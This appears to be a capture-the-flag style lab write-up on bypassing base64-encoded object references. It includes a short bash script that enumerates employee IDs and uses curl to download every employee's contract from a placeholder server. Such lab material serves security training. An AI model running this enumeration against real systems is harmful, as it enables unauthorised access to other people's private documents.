 # Bypassing Encoded References

#### Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In this exercise we must look for the flag in the Contracts page. When we download a contract we can see that we intercept a GET Request. The `contract` parameter has the value `MQ==`, which is the base64 encoded value for `1`.

Since this looks a pretty straight forward encoding method we can automatize the download process with a bash script:

{% code overflow="wrap" %}
```bash
#!/bin/bash

for i in {1..20}; do
    for hash in $(echo -n $i | base64 -w 0 | tr -d ' -'); do
        curl -sOJ -X GET "http://SERVER_IP:SERVER_PORT/download.php?contract=$hash"
    done
done
```
{% endcode %}

After execute the script let's list all the files downloaded with `ls -l`.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can clearly see that one of the files stands out.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got the flag!
